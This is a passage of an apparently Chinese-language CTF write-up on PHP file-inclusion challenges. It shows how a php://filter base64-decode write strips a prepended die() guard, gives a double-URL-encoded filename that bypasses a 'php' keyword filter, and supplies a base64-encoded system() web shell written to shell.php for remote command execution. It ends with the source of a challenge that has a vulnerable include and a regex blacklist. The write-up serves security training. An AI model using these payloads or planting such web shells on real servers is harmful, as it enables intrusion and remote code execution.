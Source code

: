 当`$content`被加上了`<?php die('大佬别秀了');?>`以后，我们可以使用 `php://filter/write=convert.base64-decode` 来首先对其解码。在解码的过程中，字符`<`、`?`、`;`、`>`、空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpdie”和我们传入的其他字符

base64算法解码时是4个byte一组，所以给他增加2个“a”一共8个字符

"phpdieaa"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。结果就是`<?php die('大佬别秀了');?>`没有了。

`file=php://filter/write=convert.base64-decode/resource=shell.php`

对文件名进行url解码后再用file_put_contents写入，通过把p换成%2570（%2570—>%70—>p）绕过对php的过滤

```
file=%2570hp%253A%2F%2Ffilter%2Fwrite%3Dconvert%252Ebase64-decode%2Fresource%3Dshell%252E%2570hp
```

然后post发包

`content=<?php system($_GET[1]);?>`

```
content=aaPD9waHAgc3lzdGVtKCRfR0VUWzFdKTs/Pg==
```

访问shell.php

![image-20230712181503264](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712181503264.png)

rce得到flag

![image-20230712181535641](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712181535641.png)

### [web88]伪协议编码

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```
